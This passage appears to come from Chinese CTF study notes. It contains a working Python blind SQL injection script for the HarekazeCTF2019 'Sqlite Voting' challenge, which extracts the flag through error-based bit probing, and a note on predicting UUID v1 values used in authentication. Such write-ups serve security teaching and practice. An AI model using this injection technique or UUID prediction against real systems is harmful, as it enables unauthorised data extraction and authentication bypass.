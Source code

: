 ```python
# coding: utf-8
import binascii
import requests
URL = 'http://85ede6a8-f6ba-463f-996d-499f800d6cf0.node4.buuoj.cn:81/vote.php'
l = 0
i = 0
for j in range(16):
  r = requests.post(URL, data={
    'id': f'abs(case(length(hex((select(flag)from(flag))))&{1<<j})when(0)then(0)else(0x8000000000000000)end)'
  })
  if b'An error occurred' in r.content:
    l |= 1 << j
print('[+] length:', l)
table = {}
table['A'] = 'trim(hex((select(name)from(vote)where(case(id)when(3)then(1)end))),12567)'
table['C'] = 'trim(hex(typeof(.1)),12567)'
table['D'] = 'trim(hex(0xffffffffffffffff),123)'
table['E'] = 'trim(hex(0.1),1230)'
table['F'] = 'trim(hex((select(name)from(vote)where(case(id)when(1)then(1)end))),467)'
table['B'] = f'trim(hex((select(name)from(vote)where(case(id)when(4)then(1)end))),16||{table["C"]}||{table["F"]})'
res = binascii.hexlify(b'flag{').decode().upper()
for i in range(len(res), l):
  for x in '0123456789ABCDEF':
    t = '||'.join(c if c in '0123456789' else table[c] for c in res + x)
    r = requests.post(URL, data={
      'id': f'abs(case(replace(length(replace(hex((select(flag)from(flag))),{t},trim(0,0))),{l},trim(0,0)))when(trim(0,0))then(0)else(0x8000000000000000)end)'
    })
    if b'An error occurred' in r.content:
      res += x
      break
  print(f'[+] flag ({i}/{l}): {res}')
  i += 1
print('[+] flag:', binascii.unhexlify(res).decode())
```

题目:[[HarekazeCTF2019]Sqlite Voting](https://blog.csdn.net/qq_46263951/article/details/119727922)

138. [uuid v1](https://versprite.com/blog/universally-unique-identifiers/)是可以预测的,因此用v1版本的uuid做身份认证有被爆破预测uuid的风险。在js里，node ID和clock sequence如下给出：

```js
var adminuuid = uuid.v1({'node': [0x67, 0x69, 0x6E, 0x6B, 0x6F, 0x69], 'clockseq': 0b10101001100100});
//node=0x67696e6b6f69
//clockseq=0b10101001100100=0x2a64,第一位会根据UUID variant变化
```

python里则是：

```python
UUIDv1 = str(uuid1(node=0x67696E6B6F69, clock_seq=0b10101001100100))
```
